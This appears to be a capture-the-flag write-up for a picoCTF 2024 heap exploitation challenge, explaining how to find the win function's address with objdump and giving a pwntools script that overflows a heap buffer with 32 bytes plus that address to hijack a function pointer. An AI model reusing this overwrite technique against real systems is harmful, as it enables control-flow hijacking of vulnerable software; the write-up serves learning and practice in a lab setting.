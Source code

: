 # Description

_#Medium_<br>
_#Binary_Exploitation_<br>
_#picoCTF_2024_<br>
_#format_string_<br>
_#heap_<br>

Can you handle ***function pointers***?<br>
Download the binary [here](../chall).<br>
Download the source [here](../chall.c).

## Solution

First, I executed the source code to observe the output. I tried entering different option numbers to see the corresponding results.

![image](https://github.com/user-attachments/assets/acbf2097-01fa-42fb-bfdc-08d69c4b812f)<br>
**From the heap table, we can see that both addresses are the same. This indicates that 32 bytes can be used to reach the boundary.*

I then reviewed the source code to identify any possible way to obtain the flag. Here’s what I discovered:

![image](https://github.com/user-attachments/assets/186485dd-0f6a-47b1-a7d1-d637d8dbc306)<br>
**To retrieve the flag, we need to call the win function.*

In this case, we need to access the win function to obtain the flag. Therefore, we must locate the address of the win function. To do this, I used the command `objdump -D chall > output.txt` to export the output to a .txt file. Search for win in the output.txt file to find its address. Then, convert the address to little-endian format by using [endian converter](https://blockchain-academy.hs-mittweida.de/litte-big-endian-converter/).

> [!NOTE]
> When writing payload scripts, little-endian format must be used.

![image](https://github.com/user-attachments/assets/8c317638-ed8d-4628-8188-86c9ae43645d)<br>
**The highlighted part is the address of win function.*

```python
from pwn import *

p = remote('mimas.picoctf.net', 64646)

p.sendline(b"2")
p.recvuntil(b"buffer:")
p.sendline(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x11\x40\x00\x00\x00\x00\x00")

p.recvuntil(b"choice:")
p.sendline(b"4")
print(p.recvall())
```
**This is the payload script that we'll use.*

Run the script in an environment, and you'll obtain the flag.
